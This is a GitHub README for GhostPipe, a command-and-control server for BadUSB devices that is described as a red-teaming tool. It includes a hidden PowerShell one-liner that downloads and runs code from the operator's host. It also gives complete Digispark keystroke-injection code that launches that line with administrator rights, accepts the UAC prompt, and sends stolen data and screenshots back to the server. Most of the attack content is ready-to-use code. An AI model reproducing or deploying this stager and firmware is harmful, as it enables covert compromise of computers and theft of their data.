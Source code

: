 # GhostPipe C2 Server

GhostPipe is a minimal, simple, self-hosted Command-and-Control (C2) framework designed for red teaming and ethical hacking exercises.

It allows you to manage BadUSB PowerShell-based payloads, collect exfiltrated data, and operate via a responsive web UI optimized for both desktop and mobile.

You install GhostPipe on any server, flash your Digispark or BadUSB device with a tiny PowerShell stub that simply downloads whatever lives at `/x`, and then point it at your GhostPipe URL. From the web UI you can add, edit, activate or deactivate payloads on the fly. Therefore, the next time your device plugs in it will fetch the newest script, and any data it POSTs back to /exfil (text, files or even screenshots) is automatically collected, decoded and presented in your dashboard for review.

## Screenshots
![image](https://github.com/user-attachments/assets/6ad827b0-6c40-4b70-b0ad-6a9a7bc23bc8)

![image](https://github.com/user-attachments/assets/1b15b7d6-1249-4a74-a61a-e9b361f7c79d)

![image](https://github.com/user-attachments/assets/c563d3f5-5cd1-46c6-b88f-16a43573cefa)


## 🔑 Features

  * Secure login with username/password (bcrypt-hashed)
  * Change username & password
  * Automatic session invalidation on password change
  * Create, edit, delete PowerShell payloads
  * Activate/deactivate payloads (single active payload at a time)
  * Export/import payloads as JSON
  * Collect exfiltrated data and save in database
  * Embedded thumbnails for screenshots


## 🛠️ Requirements

* Python 3.8+
* Flask 3.x
* Flask-Login
* Flask-Bcrypt
* SQLite3

Install dependencies with:

```bash
pip install flask flask-login flask-bcrypt
```


## ⚙️ Installation & Configuration

1. **Clone the repo**

```bash
git clone https://github.com/Nickguitar/GhostPipe.git
cd GhostPipe
```

2. **Configure environment variables** (optional — defaults shown):
```bash
export GHOSTPIPE_DB=c2.db
export GHOSTPIPE_SECRET=mysecretkey
export GHOSTPIPE_USER=admin
export GHOSTPIPE_PASS=Gh0stP!p3
```

3. **Initialize database and Start the server**:

```bash
python main.py
```

4. **Open your browser** at `http://localhost:8000/` and log in with your credentials.

## 🚀 Usage

* Flash the badUSB with the first stage code. This should be done only once to set up the USB device. See next section.
* First Log in with `admin:Gh0stP!p3`, and change password.
* Add Payload: Go to “Payloads” → Add ➕, enter a name and your PowerShell script, then Save.
* Import: You can also import a pre-built list of payloads. [See some examples here](EXAMPLES.md).
* Activate/Deactivate: Toggle the active payload via the toggle icons in the Actions column. The active payload is the one to be run when the badUSB script is executed.
* View Exfiltrated data: Click “View Exfiltrated Data” to see collected outputs from successful executions.
* Settings: Update username/password under the ⚙️ Settings button.

## Flashing the badUSB with first stage

Paste the following code into [Duckify](https://duckify.huhn.me/), changing `<YOUR_HOST>:8000` to your public facing URL with GhostPipe. Make sure to select correctly the keyboard layout, otherwise it will break the slashes when typing it:

```
STRING powershell -NoP -NonI -WindowStyle hidden -Exec Bypass iwr https://<YOUR_HOST>.com/x|iex
```

It should generate the constant `const uint8_t key_arr_0[] PROGMEM = {...}`. Copy it and replace in the following code. 

```cpp
#include "DigiKeyboard.h"

// powershell -NoP -NonI -WindowStyle hidden -Exec Bypass iwr https://<YOUR_HOST>.com/x|iex
// CHANGE THIS:
const uint8_t key_arr_0[] PROGMEM = {0,19, 0,18, 0,26, 0,8, 0,21, 0,22, 0,11, 0,8, 0,15, 0,15, 0,44, 0,45, 2,17, 0,18, 2,19, 0,44, 0,45, 2,17, 0,18, 0,17, 2,12, 0,44, 0,45, 2,26, 0,12, 0,17, 0,7, 0,18, 0,26, 2,22, 0,23, 0,28, 0,15, 0,8, 0,44, 0,11, 0,12, 0,7, 0,7, 0,8, 0,17, 0,44, 0,45, 2,8, 0,27, 0,8, 0,6, 0,44, 2,5, 0,28, 0,19, 0,4, 0,22, 0,22, 0,44, 0,12, 0,26, 0,21, 0,44, 0,11, 0,23, 0,23, 0,19, 0,22, 2,56, 64,20, 64,20, 2,54, 2,28, 2,18, 2,24, 2,21, 2,45, 2,11, 2,18, 2,22, 2,23, 2,55, 0,55, 0,6, 0,18, 0,16, 64,20, 0,27, 2,100, 0,12, 0,8, 0,27};

void duckyString(const uint8_t* keys, size_t len) {  
    for(size_t i=0; i<len; i+=2) {
        DigiKeyboard.sendKeyStroke(pgm_read_byte_near(keys + i+1), pgm_read_byte_near(keys + i));
    }
}

void setup() {
    pinMode(1, OUTPUT);
    digitalWrite(1, LOW);
    DigiKeyboard.sendKeyStroke(0); // Tell computer no key is pressed
    DigiKeyboard.delay(1000);
    DigiKeyboard.delay(200);
    DigiKeyboard.sendKeyStroke(21, 8); // GUI r
    DigiKeyboard.delay(700);
    duckyString(key_arr_0, sizeof(key_arr_0)); // STRING powershell -NoP -NonI -WindowStyle hidden...
    DigiKeyboard.delay(200);
    DigiKeyboard.sendKeyStroke(40, 3); // CTRL SHIFT ENTER (execute as admin)
    DigiKeyboard.delay(1000);
    DigiKeyboard.sendKeyStroke(28, 4); // ALT y
    DigiKeyboard.delay(200);
    digitalWrite(1, HIGH); // Turn LED on
}

void loop() {}
```
